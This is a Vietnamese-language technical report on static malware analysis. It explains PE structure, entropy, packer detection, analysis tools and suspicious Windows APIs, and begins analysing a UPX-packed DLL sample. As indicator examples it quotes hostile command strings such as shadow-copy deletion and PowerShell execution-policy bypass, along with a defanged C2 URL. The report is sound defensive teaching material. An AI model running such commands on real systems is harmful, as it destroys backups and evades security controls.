



# BÁO CÁO KỸ THUẬT: PHÂN TÍCH TĨNH MÃ ĐỘC CƠ BẢN 

# PHẦN 1: LÝ THUYẾT NỀN TẢNG 

## 1.1. Bản chất & Cơ chế Phân tích Tĩnh (Static Analysis)

### 1.1.1. Định nghĩa kỹ thuật
**Phân tích tĩnh mã độc (Static Malware Analysis)** là phương pháp kiểm tra, mổ xẻ cấu trúc nhị phân, mã máy, siêu dữ liệu (metadata), và tài nguyên của một tệp tin đáng ngờ **mà hoàn toàn không thực thi (không kích hoạt chạy)** tệp đó trên hệ điều hành.

Quá trình này bao gồm việc đọc các trường trong tiêu đề tệp (headers), tính toán chữ ký số và mã băm mật mã (cryptographic hashes), trích xuất chuỗi ký tự (strings), phân tích bảng hàm nhập/xuất (imports/exports), và dịch ngược mã máy (disassembly/decompilation) thành Assembly hoặc mã nguồn bậc cao (C, C#, Java).

### 1.1.2. Mục đích cốt lõi
1. **Xác định tính chất tệp (Triage & Categorization):** Phân loại nhanh tệp nghi vấn là lành tính , phần mềm quảng cáo/không mong muốn (PUA/Adware), hay mã độc nguy hiểm (Ransomware, Trojan, Rootkit).
2. **Thu thập Chỉ số Thỏa hiệp sơ bộ (Initial Indicators of Compromise - IOCs):** Trích xuất nhanh các địa chỉ IP, C2 Domain, URL tải payload, tên tiến trình mục tiêu, khóa Registry hoặc tên Mutex mà mã độc chuẩn bị sử dụng.
3. **Phát hiện Kỹ thuật Che giấu (Packer / Obfuscation Detection):** Kiểm tra xem mẫu nhị phân có bị nén (packed), bảo vệ bằng máy ảo (VMProtect/Themida), hay mã hóa payload bên trong không để lựa chọn chiến lược giải nén (unpacking) phù hợp.
4. **Định hướng cho Phân tích Động & Dịch ngược Chuyên sâu:** Khoanh vùng các hàm API nguy hiểm (như `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`) để đặt sẵn Breakpoint chính xác khi đưa vào Debugger (x64dbg/x32dbg).

### 1.1.3. Ưu điểm nổi bật
- **An toàn tuyệt đối (Safety):** Do không chạy tệp tin, phân tích viên loại bỏ hoàn toàn nguy cơ lây nhiễm mã độc sang máy phân tích hoặc làm rò rỉ dữ liệu qua mạng LAN.
- **Tốc độ thực hiện nhanh (High Speed & Scalability):** Việc trích xuất mã băm, chuỗi và IAT chỉ mất vài giây đến vài phút; có thể tự động hóa trên hàng triệu mẫu tệp bằng script (YARA, Python-pefile).
- **Bao quát toàn diện các luồng thực thi (Code Coverage):** Phân tích tĩnh cho phép đọc và rà soát được tất cả các nhánh rẽ điều kiện (conditional branches), hàm ngầm, mã xử lý sự kiện phụ mà trong phân tích động có thể không bao giờ được kích hoạt (do thiếu điều kiện môi trường hoặc thời gian).
- **Vô hiệu hóa kỹ thuật Anti-Dynamic/Evasion:** Bỏ qua được các kỹ thuật phát hiện máy ảo (Anti-VM), phát hiện Debugger (Anti-Debugging), kỹ thuật Sleep Acceleration hoặc kỹ thuật Geofencing (chỉ chạy ở một quốc gia chỉ định).

### 1.1.4. Hạn chế và thách thức kỹ thuật
- **Bất lực trước Packer và Cryptor hiện đại:** Nếu mã độc bị đóng gói bằng UPX, Themida, Enigma Protector, VMP, phần lớn mã nguồn thực thi đã bị nén/mã hóa. Phân tích tĩnh cơ bản chỉ thấy được phần mã của stub giải nén (Unpacking Stub) chứ không thể đọc được mã độc thực thụ bên dưới.
- **Che giấu API thông qua Dynamic Resolution:** Mã độc tinh vi không khai báo hàm trong IAT mà sử dụng cặp API `LoadLibrary` + `GetProcAddress` hoặc duyệt thủ công cấu trúc PEB (Process Environment Block) và giải băm API (API Hashing/ROR13), khiến bảng IAT trông hoàn toàn "vô hại".
- **Chuỗi bị xáo trộn (String Obfuscation):** Các chuỗi nhạy cảm (C2 IP, lệnh PowerShell, đường dẫn file) thường bị mã hóa XOR, RC4, Base64 hoặc chia nhỏ thành từng ký tự gán trên Stack (Stack Strings), khiến lệnh `strings` thông thường không thể đọc được.
- **Đòi hỏi kiến thức cấu trúc nhị phân sâu:** Yêu cầu chuyên gia phải hiểu sâu về mã máy x86/x64, cấu trúc tệp tin Windows PE/Linux ELF và cơ chế bộ nhớ hệ điều hành.

### 1.1.5. So sánh toàn diện: Static Analysis vs. Dynamic Analysis

| Tiêu chí | Phân tích Tĩnh (Static Analysis) | Phân tích Động (Dynamic Analysis) |
| :--- | :--- | :--- |
| **Bản chất kỹ thuật** | Khám phá cấu trúc, mã nguồn, metadata của tệp **không thực thi**. | Quan sát hành vi, tiến trình, mạng, file/registry khi **cho tệp chạy thực tế**. |
| **Mức độ an toàn** | **Rất an toàn**, có thể phân tích trên máy làm việc cách ly logic. | **Tiềm ẩn rủi ro cao**, bắt buộc phải chạy trong Sandbox/VM cô lập mạng (Host-Only). |
| **Thời gian & Tốc độ** | Rất nhanh (vài giây đến vài phút cho triage sơ bộ). | Chậm hơn (cần thời gian quan sát từ 2 - 10 phút để mã độc bộc lộ hành vi). |
| **Độ phủ mã (Code Coverage)** | **100% không gian mã** (có thể duyệt mọi nhánh code, hàm ẩn, mã chết). | **Hạn chế** (chỉ ghi nhận được những luồng mã được kích hoạt trong phiên chạy đó). |
| **Đối phó Packer/Obfuscation**| Khó khăn, bị chặn bởi mã hóa, nén stub, xáo trộn chuỗi. | **Vượt qua dễ dàng**, vì mã độc bắt buộc phải tự giải nén lên RAM để CPU thực thi. |
| **Đối phó Kỹ thuật Chống phân tích**| Miễn nhiễm với Anti-VM, Sleep Delay, Human-Interaction Check. | Dễ bị qua mặt nếu mã độc phát hiện môi trường ảo hóa, Sandbox hoặc tắt mạng. |
| **Công cụ tiêu biểu** | Exeinfo PE, PEStudio, Strings, CFF Explorer, Ghidra, IDA Pro. | Procmon, Process Hacker, Wireshark, RegShot, Fiddler, Any.Run, Cuckoo. |

---

## 1.2. Nghiên cứu & Ứng dụng Bộ Công cụ Phân tích Tĩnh (20đ)

```
+----------------------------------------------------------------------------------------+
|                      BỘ CÔNG CỤ PHÂN TÍCH TĨNH TIÊU CHUẨN CÔNG NGHIỆP                  |
+----------------------------------------------------------------------------------------+
|  [Exeinfo PE]   ---> Nhận diện Compiler, Packer, Crypter & gợi ý Unpacker              |
|  [PEStudio]     ---> Chấm điểm chỉ số rủi ro (Indicators), Blacklist APIs, MITRE Map   |
|  [Strings/FLOSS]---> Trích xuất chuỗi ASCII, Unicode, Stack Strings, Decoded Strings   |
|  [CFF Explorer] ---> Xem & Sửa PE Header, Data Directories, Sections, Rebuild IAT      |
+----------------------------------------------------------------------------------------+
```

### 1.2.1. Exeinfo PE


- **Chức năng chính:**
  - Là công cụ quét chữ ký số định dạng (Signature Scanner) chuyên dụng cực mạnh trên Windows.
  - Nhận dạng chính xác trình biên dịch (Compiler như Visual C++, Delphi, MinGW, .NET, Go, Rust, MASM).
  - Nhận diện các phần mềm đóng gói (Packer) và bảo vệ mã (Protector/Crypter) như UPX, ASPack, PECompact, VMProtect, Themida, ConfuserEx.
  - Kiểm tra xem tệp có chứa phần bù đuôi (Overlay) hoặc tệp nén giấu bên trong (ZIP, RAR, 7z) không.
- **Dữ liệu có thể trích xuất:**
  - Tên Packer và phiên bản tương ứng (ví dụ: `UPX 3.9x -> Markus & Laszlo`).
  - Địa chỉ điểm vào tệp (Entry Point - OEP thực hoặc OEP ảo).
  - Tình trạng tệp: Có bị Packed (Pack status), Unregistered Protector, Fake Headers hay không.
  - Lời khuyên/Gợi ý gỡ gói (Unpack info / Unpack tool suggestion) cho phân tích viên.
- **Ví dụ thông tin có giá trị trong điều tra malware:**
  - Khi mở mẫu malware vào Exeinfo PE, công cụ thông báo: `Packer: UPX 3.96 -> Markus Oberhumer`, đồng thời gợi ý lệnh unpack `upx -d file.exe`. Nhờ đó, phân tích viên biết ngay file đang bị nén bằng UPX và chỉ cần chạy 1 dòng lệnh để đưa file về trạng thái nguyên bản trước khi phân tích tiếp, tiết kiệm hàng giờ dịch ngược stub.
  

### 1.2.2. PEStudio


- **Chức năng chính:**
  - Là công cụ Triage (sàng lọc rủi ro) chuyên sâu hàng đầu dành cho các kỹ sư SOC/DFIR.
  - Tự động chấm điểm mức độ nguy hiểm của tệp dựa trên hệ thống luật định sẵn (Indicators) mà không cần nạp tệp lên mạng.
  - Tích hợp kiểm tra bảng băm trực tuyến với cơ sở dữ liệu VirusTotal.
  - Tự động đối chiếu các hàm API khả nghi với ma trận kỹ thuật tấn công **MITRE ATT&CK**.
  - Rà soát chữ ký số, danh sách chuỗi đen (Blacklisted Strings), tài nguyên khả nghi và TLS Callbacks.
- **Dữ liệu có thể trích xuất:**
  - Bộ mã băm đầy đủ: MD5, SHA1, SHA256, **Imphash** (Import Hash), SSDEEP.
  - Danh mục các phân vùng (Sections) kèm chỉ số Entropy (chỉ số ngẫu nhiên) và quyền hạn (Read, Write, Execute).
  - Danh sách chi tiết các thư viện DLL và hàm API được import, có đánh dấu đỏ các hàm độc hại (Blacklisted/Suspicious APIs).
  - Các chuỗi được phân loại theo danh mục: URL, IPv4, Registry, GUID, Debug Paths.
- **Ví dụ thông tin có giá trị trong điều tra malware:**
  - PEStudio gắn cờ đỏ cảnh báo: API `VirtualAllocEx` và `WriteProcessMemory` cùng xuất hiện, được gán nhãn MITRE ATT&CK là **T1055 (Process Injection)**. Phân tích viên ngay lập tức xác định được mẫu này mang hành vi chích mã độc vào tiến trình hệ thống hợp pháp để ẩn mình.

### 1.2.3. Strings (Sysinternals) & Mandiant FLOSS


- **Chức năng chính:**
  - Quét toàn bộ khối nhị phân để lọc ra các chuỗi ký tự in ấn được (printable characters) có độ dài từ 3 hoặc 4 ký tự trở lên.
  - Hỗ trợ trích xuất cả chuẩn mã hóa **ASCII (1-byte)** và **Unicode UTF-16LE (2-byte)**.
  - Phiên bản nâng cao **FLOSS (FireEye/Mandiant FLARE Obfuscated String Solver)** còn sử dụng giải thuật mô phỏng thực thi (emulation) để tự động giải mã các chuỗi được giấu trên Stack (Stack Strings) hoặc mã hóa XOR cơ bản.
- **Dữ liệu có thể trích xuất:**
  - Địa chỉ IP máy chủ điều khiển (C2 Server), tên miền (Domain Name), URL tải mã độc giai đoạn 2.
  - Tên các file tạm, file cấu hình, khóa Registry dùng để duy trì khởi động (Persistence).
  - Các câu lệnh hệ điều hành: `cmd.exe /c`, `powershell.exe -ExecutionPolicy Bypass`, `vssadmin delete shadows`.
  - Thông điệp đe dọa đòi tiền chuộc (Ransom Note), địa chỉ ví tiền mã hóa (Bitcoin, Monero), email liên hệ của hacker.
  - Đường dẫn biên dịch tệp (PDB Path) chứa tên tài khoản hoặc môi trường phát triển của kẻ tấn công (ví dụ: `C:\Users\Ivan\Desktop\Trojan\Release\payload.pdb`).
- **Ví dụ thông tin có giá trị trong điều tra malware:**
  - Khi chạy `strings -a sample.exe`, xuất hiện dòng: `http://update-microsoft-service[.]com/gate.php?id=` và `SOFTWARE\Microsoft\Windows\CurrentVersion\Run`. Điều này cung cấp ngay lập tức 2 chỉ số IOC quan trọng: Domain C2 để đưa vào hệ thống Firewall/SIEM chặn đứng kết nối, và vị trí mã độc cắm rễ khởi động cùng Windows.

### 1.2.4. CFF Explorer


- **Chức năng chính:**
  - Bộ biên tập và mổ xẻ cấu trúc Portable Executable (PE32 cho x86 và PE32+ cho x64) cực kỳ mạnh mẽ.
  - Cho phép xem, chỉnh sửa toàn bộ các trường trong DOS Header, NT Headers, File Header, Optional Header.
  - Quản lý các Data Directories: Export Directory, Import Directory, Resource Directory, Exception Directory, Relocation Directory.
  - Hỗ trợ tính toán lại Checksum, chỉnh sửa Section Headers, dump dữ liệu, mở Hex Editor và thay đổi quyền hạn bộ nhớ.
- **Dữ liệu có thể trích xuất:**
  - Kiến trúc CPU mục tiêu (`Machine: 0x014C` cho x86 hoặc `0x8664` cho x64).
  - Dấu thời gian biên dịch gốc (**TimeDateStamp**).
  - Các cờ bảo vệ hệ thống trong `DllCharacteristics`: Hỗ trợ **ASLR** (Address Space Layout Randomization), **DEP** (Data Execution Prevention), SafeSEH.
  - Chi tiết từng Section: `VirtualAddress`, `VirtualSize`, `RawAddress`, `RawSize`, `Characteristics` (quyền Read/Write/Execute).
  - Cây tài nguyên nhúng (Resources): Kiểm tra các tệp `.ico`, `.manifest`, hoặc các PE nhị phân con được giấu trong mục `BIN`/`RCDATA`.
- **Ví dụ thông tin có giá trị trong điều tra malware:**
  - Trong tab `Import Directory`, phân tích viên thấy danh sách Import chỉ có đúng 2 hàm: `LoadLibraryA` và `GetProcAddress` trong `KERNEL32.dll`. Kết hợp với việc xem phân vùng `.text` có `RawSize` rất nhỏ nhưng `VirtualSize` lại rất lớn, CFF Explorer giúp kết luận chính xác tệp này đang áp dụng kỹ thuật **Process Hollowing/Unpacking dynamically**, cần dump vùng nhớ sau khi OEP được giải mã.

### 1.2.5. Công cụ bổ trợ đề xuất: Detect It Easy (DIE) & Capa
- **Detect It Easy (DIE):**
  - Công cụ thế hệ mới vượt trội trong việc phân tích Entropy đồ họa, phân tích cấu trúc chữ ký bằng ngôn ngữ script, tích hợp máy tính Entropy từng byte để xác định chính xác vị trí bắt đầu của payload bị mã hóa.
- **Mandiant Capa:**
  - Công cụ sử dụng tập luật mã nguồn mở (YAML rules) để nhận dạng "năng lực" (capabilities) của mã độc. Ví dụ: Capa có thể kết luận tệp có năng lực "check for sandbox environment", "inject code into process", "create reverse shell" chỉ bằng việc đọc tĩnh mã Assembly.

---

## 1.3. Các Dữ liệu Trọng yếu Cần Quan tâm Khi Phân tích Tĩnh PE (10đ)

Cấu trúc **PE (Portable Executable)** là định dạng chuẩn cho các tệp thực thi (`.exe`), thư viện liên kết động (`.dll`), trình điều khiển (`.sys`), và ActiveX (`.ocx`) trên hệ điều hành Windows 32-bit và 64-bit.

```
+-----------------------------------------------------------------------------------+
|                            CẤU TRÚC FILE WINDOWS PE                               |
+-----------------------------------------------------------------------------------+
|  DOS MZ Header (Magic: 0x5A4D 'MZ') ---> Chứa e_lfanew trỏ tới PE Header          |
|  DOS Stub ("This program cannot be run in DOS mode.")                             |
+-----------------------------------------------------------------------------------+
|  PE Signature ("PE\0\0" - 0x00004550)                                             |
+-----------------------------------------------------------------------------------+
|  COFF File Header (Machine Type, NumberOfSections, TimeDateStamp)                 |
+-----------------------------------------------------------------------------------+
|  Optional Header (Magic 0x10B/0x20B, AddressOfEntryPoint, ImageBase, Subsystem)   |
|  Data Directories (Export Table, Import Table, Resource Table, Reloc, TLS)        |
+-----------------------------------------------------------------------------------+
|  SECTION TABLE (Headers của .text, .rdata, .data, .rsrc, .reloc, ...)             |
+-----------------------------------------------------------------------------------+
|  SECTION BODIES (Nội dung mã máy thực thi, biến toàn cục, dữ liệu nhúng, IAT)     |
+-----------------------------------------------------------------------------------+
|  OVERLAY (Dữ liệu thêm vào cuối file - ngoài phạm vi quản lý của Section Headers) |
+-----------------------------------------------------------------------------------+
```

### 1.3.1. Giá trị Băm & Nhận dạng (Cryptographic Hashes & Identification)
- **MD5, SHA-1, SHA-256:** Đại diện cho chữ ký số định danh duy nhất của tệp. Chỉ cần 1 bit thay đổi thì giá trị băm sẽ đổi hoàn toàn. Dùng để tra cứu tức thì trên các nền tảng đe dọa toàn cầu (VirusTotal, MalwareBazaar).
- **Imphash (Import Hash):** Giá trị băm tính toán dựa trên danh sách các hàm và thư viện trong bảng IAT theo thứ tự xuất hiện.
  - *Ý nghĩa điều tra:* Kẻ tấn công có thể thay đổi mã nguồn nhẹ để né SHA256, nhưng nếu cùng dùng một trình tạo payload/khung mã độc (ví dụ cùng họ Cobalt Strike Beacon hay Emotet), giá trị **Imphash** sẽ trùng khớp, giúp gom cụm (cluster) chiến dịch tấn công của cùng một nhóm APT.
- **SSDEEP (Context Triggered Piecewise Hashing - Fuzzy Hash):** Cho phép tính toán độ tương đồng giữa hai tệp nhị phân bị biến thể nhẹ.

### 1.3.2. Cấu trúc PE Headers
1. **DOS Header (`IMAGE_DOS_HEADER`):**
   - Bắt đầu bằng 2 byte ma thuật `0x4D 0x5A` ("MZ").
   - Trường quan trọng nhất là `e_lfanew` (nằm ở offset `0x3C`): Con trỏ trỏ trực tiếp đến địa chỉ bắt đầu của PE Header thực sự. Nếu giá trị này sai lệch, hệ điều hành sẽ báo lỗi không thực thi được.
2. **File Header (`IMAGE_FILE_HEADER`):**
   - `Machine`: Xác định kiến trúc phần cứng (`0x014C` = Intel x86 32-bit; `0x8664` = AMD64/x64).
   - `NumberOfSections`: Số lượng phân vùng trong tệp. Bất kỳ tệp PE nào có số section quá ít (<2) hoặc quá nhiều (>8-10) đều là dấu hiệu bất thường.
   - `TimeDateStamp`: Thời gian biên dịch (Epoch timestamp). Dùng để xác định thời điểm mã độc được lập trình. Tuy nhiên kẻ tấn công có thể giả mạo (Timestomping) trường này.
3. **Optional Header (`IMAGE_OPTIONAL_HEADER`):**
   - `Magic`: `0x10B` (PE32 - 32-bit) hoặc `0x20B` (PE32+ - 64-bit).
   - `AddressOfEntryPoint (AEP / OEP)`: RVA (Relative Virtual Address) của lệnh thực thi đầu tiên khi tệp được nạp vào bộ nhớ. Nếu Entry Point trỏ vào một section khác ngoài `.text` (như `.rdata`, `.upx1`, `.rsrc`), tệp chắc chắn bị pack hoặc chèn mã can thiệp.
   - `ImageBase`: Địa chỉ bộ nhớ ảo ưu tiên khi tải file (mặc định là `0x400000` cho EXE 32-bit).
   - `Subsystem`: Xác định giao diện thực thi (`IMAGE_SUBSYSTEM_WINDOWS_GUI` cho ứng dụng cửa sổ, `IMAGE_SUBSYSTEM_WINDOWS_CUI` cho dòng lệnh Console). Mã độc ngụy trang tài liệu Word/PDF thường sử dụng GUI để không bật cửa sổ đen Console khi chạy.
   - `DllCharacteristics`: Kiểm tra cờ an ninh `IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE` (ASLR) và `IMAGE_DLLCHARACTERISTICS_NX_COMPAT` (DEP). Nếu mã độc cố tình tắt các cờ này, nó thường chuẩn bị sẵn sàng cho việc tự bẻ khóa hoặc khai thác lỗi tràn bộ đệm.

### 1.3.3. Các phân vùng (Sections), Entropy & Tỷ lệ Virtual Size / Raw Size
Một tệp PE chuẩn thường chứa các phân vùng tiêu chuẩn:
- `.text` / `.code`: Chứa mã máy thực thi (CPU instructions).
- `.data`: Biến toàn cục có khởi tạo giá trị, có thể đọc và ghi.
- `.rdata`: Dữ liệu chỉ đọc (hằng số, chuỗi, bảng IAT).
- `.rsrc`: Chứa icon, ảnh, file nhúng, menu, manifest.
- `.reloc`: Bảng tái định vị địa chỉ bộ nhớ khi ImageBase bị thay đổi (ASLR).

**Ba quy luật "vàng" phát hiện mã độc qua Section:**
1. **Tên Section bất thường:** Xuất hiện các tên như `UPX0`, `UPX1`, `.vmp0`, `.aspack`, `packer`, hoặc tên vô nghĩa `qw89a`.
2. **Độ lệch Virtual Size và Size of Raw Data:**
   - Trong tệp thông thường: `VirtualSize` →\approx→ `SizeOfRawData`.
   - **Dấu hiệu Packer:** `SizeOfRawData` của section chứa code rất nhỏ (ví dụ 1 KB), nhưng `VirtualSize` lại cực lớn (ví dụ 500 KB). Điều này chỉ ra rằng khi nạp vào RAM, mã độc sẽ tự giải nén bung ra bộ nhớ để chiếm lĩnh không gian lớn.
3. **Chỉ số Entropy (Độ hỗn loạn thông tin của Shannon):**
   - Thang đo từ `0.0` đến `8.0`.
   - Mã nguồn đã biên dịch bình thường có entropy dao động từ `4.5 - 6.5`.
   - **Entropy →\ge 7.2 - 8.0→:** Dữ liệu trong section đó gần như chắc chắn đã bị nén chặt (compressed) hoặc mã hóa mật mã (encrypted). Đây là chỉ báo chuẩn của Packer, Crypter hoặc Payload Ransomware.
4. **Quyền hạn phân vùng bất thường (Section Characteristics):**
   - Phân vùng vừa có quyền **Write (Ghi)** vừa có quyền **Execute (Thực thi)** (tức `W + X`). Đây là kỹ thuật viết mã tự sửa đổi (Self-modifying code) hoặc chuẩn bị vùng nhớ để Unpack mã độc trực tiếp tại chỗ.

### 1.3.4. Bảng hàm nhập (Import Address Table - IAT) & Các Windows API nguy hiểm
Số lượng và tên các API được import phản ánh chân thực năng lực hoạt động của phần mềm:

| Nhóm hành vi mã độc | Các Windows API nhận diện | Ý nghĩa hoạt động |
| :--- | :--- | :--- |
| **Process Injection / Hollowing** | `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`, `NtUnmapViewOfSection`, `QueueUserAPC`, `SetThreadContext` | Phân bổ vùng nhớ trong tiến trình khác (như `explorer.exe`, `svchost.exe`) và ép tiến trình đó chạy mã độc thay cho mình. |
| **Persistence (Bám rễ khởi động)** | `RegCreateKeyEx`, `RegSetValueExA/W`, `OpenSCManager`, `CreateService`, `CopyFile` | Ghi khóa Registry Run, tạo Windows Service độc hại, hoặc chép file vào thư mục Startup. |
| **Anti-Debugging / Evasion** | `IsDebuggerPresent`, `CheckRemoteDebuggerPresent`, `NtQueryInformationProcess`, `OutputDebugString`, `GetTickCount` | Kiểm tra xem có đang bị gắn cờ phân tích trong x64dbg/OllyDbg không để tự hủy hoặc chuyển hướng mã. |
| **Tải & Thực thi tệp (Dropper)** | `URLDownloadToFileA`, `InternetOpen`, `InternetReadFile`, `WinExec`, `ShellExecuteEx`, `CreateProcess` | Kết nối Internet tải payload thứ cấp về máy và kích hoạt thực thi. |
| **Keylogging & Spyware** | `SetWindowsHookExA/W`, `GetAsyncKeyState`, `GetKeyState`, `GetForegroundWindow`, `BitBlt` | Bắt phím bấm của người dùng, lấy tiêu đề cửa sổ đang mở hoặc chụp ảnh màn hình. |
| **Mã hóa dữ liệu (Ransomware)**| `CryptAcquireContext`, `CryptGenRandom`, `CryptEncrypt`, `BCryptEncrypt` | Khởi tạo môi trường mật mã của Windows CryptoAPI để tiến hành khóa tệp của nạn nhân. |

> **Quy tắc phát hiện Packing qua IAT:** Nếu một tệp EXE kích thước hàng trăm KB nhưng bảng IAT chỉ có đúng 1-2 hàm (`GetProcAddress`, `LoadLibraryA`), tệp đó chắc chắn là Packed Executable.

### 1.3.5. Bảng hàm xuất (Export Address Table - EAT)
- Thường xuất hiện trong các tệp DLL.
- Phân tích tĩnh EAT giúp phát hiện các hàm xuất nguy hiểm (ví dụ: `DllRegisterServer`, `ReflectiveLoader` - hàm chuyên dụng để tự tải DLL vào bộ nhớ không cần gọi Windows Loader).

### 1.3.6. Tài nguyên nhúng (Resources - `.rsrc`) & Dữ liệu nối đuôi (Overlay)
- **Tài nguyên độc hại:** Kẻ tạo Dropper thường nhúng mã độc chính vào thư mục `BIN`, `RCDATA` hoặc `CAB` trong phần Resource, mã hóa RC4 hoặc nén lại. Khi chạy, mã độc sẽ gọi `FindResource`, `LoadResource`, `LockResource` để giải mã ra đĩa.
- **Dữ liệu nối đuôi (Overlay Data):** Dữ liệu được append (ghi thêm) vào phía sau byte cuối cùng của phân vùng cuối cùng trong file PE. Hệ điều hành không nạp Overlay vào Virtual Memory, nhưng mã độc có thể tự mở chính tệp của nó trên đĩa (`CreateFile` với tên file gốc) và nhảy đến offset cuối để đọc cấu hình độc hại (C2, Bot ID, Config).

### 1.3.7. Điểm gọi ngầm (TLS Callbacks) & Chữ ký số (Digital Certificate)
- **TLS (Thread Local Storage) Callbacks:** Cấu trúc hàm đặc biệt được thiết kế để khởi tạo biến thread. Tuy nhiên, các hàm trong mảng TLS Callbacks sẽ được **hệ điều hành triệu gọi thực thi TRƯỚC KHI con trỏ CPU nhảy tới AddressOfEntryPoint**. Kẻ viết mã độc dùng TLS Callbacks để chạy mã độc hoặc kiểm tra Debugger trước khi phân tích viên kịp dừng ở điểm dừng ban đầu.
- **Chữ ký số (Authenticode):** Tệp có chữ ký hợp lệ từ Microsoft/Google thường là an toàn. Nếu tệp không có chữ ký, chữ ký bị thu hồi (Revoked), hoặc tự ký (Self-signed) với thông tin mạo danh, mức độ rủi ro là tối đa.

---

# PHẦN 2: THỰC HÀNH PHÂN TÍCH MẪU MÃ ĐỘC THỰC TẾ 

## Mẫu 1: Phân tích tệp 1.sample (UPX Packed DLL)


Trong ảnh trên ta xác định được:
- Mã **Imphash**: `B0488027A70EE122E93F3A37F1EA80A6`
- Các giá trị băm **MD5** và **SHA1** để xác định danh tính mã độc ban đầu.


-> **Nhận định ban đầu:** Tệp tin đã được đóng gói bằng UPX (UPX Packed).


-> **Kiểm tra Entropy:** Chỉ số entropy của các phân vùng rất cao, củng cố vững chắc luận điểm file này đã bị packed hoặc mã hóa (encrypted).

Kiểm tra trên VirusTotal bằng mã băm SHA256 của file:


-> Tiếp tục củng cố luận điểm tệp được packed bằng UPX. Đặc biệt, ta phát hiện một chi tiết quan trọng: phân vùng có đầy đủ quyền **RWE (Read - Write - Execute)**, dấu hiệu kinh điển của việc chuẩn bị vùng nhớ để tự giải nén (unpack) mã độc trực tiếp trên RAM.

---

### Phân tích cấu trúc PE Headers


Ta trích xuất được các thông tin kỹ thuật quan trọng sau:
- **File Type:** `dynamic-link-library` (DLL)
- **CPU Target:** `64-bit`
- **Subsystem:** `GUI`
